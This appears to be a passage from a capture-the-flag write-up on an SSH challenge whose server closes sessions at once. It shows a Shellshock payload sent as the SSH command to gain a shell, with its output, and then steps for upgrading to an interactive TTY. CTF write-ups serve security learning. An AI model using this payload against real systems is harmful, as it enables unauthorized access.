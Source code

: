 Ok, the server is printing the above message and immediatly close the ssh connection.

### Exploitation

In this challenge, you have to find a way to keep the session open. I first tried to use `-N` parameter of SSH, but it doesn't work.

So I asked to Google: http://lmgtfy.com/?q=ssh+immediate+disconnection+ctf

And finally found this writeup: https://securitybytes.io/vulnhub-com-tr0ll2-ctf-walkthrough-9993042f8af8

So, go on, I tried with a Shellshock payload:

```bash
$ ssh -i /home/maki/Documents/chall/imtld/netrunnners/priv.key puppet-master@51.75.202.113 -p 2021 '() { :;}; /bin/bash'

.___..___.___..__..___..___ __ .  .
  _/ [__   |  [__]  |  [__ /  `|__|
./__.[___  |  |  |  |  [___\__.|  |


Do not use Zetatech maintenance interface if you are not authorized by Zetatech Corporation.
ls
client.note
status.sh
tech.note
id
uid=1001(puppet-master) gid=1001(puppet-master) groups=1001(puppet-master)
```

It work! But before going further, I want to have a fully functionnal bash: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```bash
# On remote server
$ which python3
/usr/bin/python3

$ python3 -c "import pty;pty.spawn('/bin/bash')"
puppet-master@2a87f3ade358:~$ # Do CTRL + Z to suspend to current job

# On localhost
localhost $ stty raw -echo 
localhost $ fg # It will not be display
localhost $ reset 
reset: unknown terminal type unknown
Terminal type? xterm

# On remote server
puppet-master@2a87f3ade358:~$ id
uid=1001(puppet-master) gid=1001(puppet-master) groups=1001(puppet-master)
```
